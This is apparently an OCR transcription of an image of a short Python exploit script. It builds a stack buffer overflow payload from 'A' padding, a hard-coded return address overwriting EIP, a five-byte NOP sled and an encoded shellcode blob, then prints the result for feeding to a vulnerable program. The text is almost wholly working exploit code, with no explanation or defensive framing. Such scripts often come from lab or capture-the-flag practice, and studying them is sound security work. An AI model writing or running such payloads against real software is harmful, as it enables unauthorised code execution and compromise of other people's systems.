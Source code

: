 
buffer = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"

EIP = "\x51\x1b\xdf\xf7"

nop = '\x90' * 5

buf =  b""
buf += b"\xbf\x28\xdb\x66\x5f\xdb\xc3\xd9\x74\x24\xf4\x5e"
buf += b"\x33\xc9\xb1\x11\x83\xc6\x04\x31\x7e\x0e\x03\x56"
buf += b"\xd5\x84\xaa\xcc\xe2\x10\xcc\x42\x93\xc8\xc3\x01"
buf += b"\xd2\xee\x74\xea\x97\x98\x84\x9c\x78\x3b\xec\x32"
buf += b"\x0e\x58\xbc\x22\x0d\x9f\x41\xb2\x4d\xfe\x35\x92"
buf += b"\xbe\x2e\xc5\xb7\xa3\x5c\x4c\x43\x0b\x8f\xf8\xce"
buf += b"\x21\xb6\x77\x75\xa5\x3a\x1d\x01\x07\xcb\xb9\x8b"
buf += b"\x57\x7c\x11\xc2\xb9\x4f\x15"


print(buffer + EIP + nop + buf)
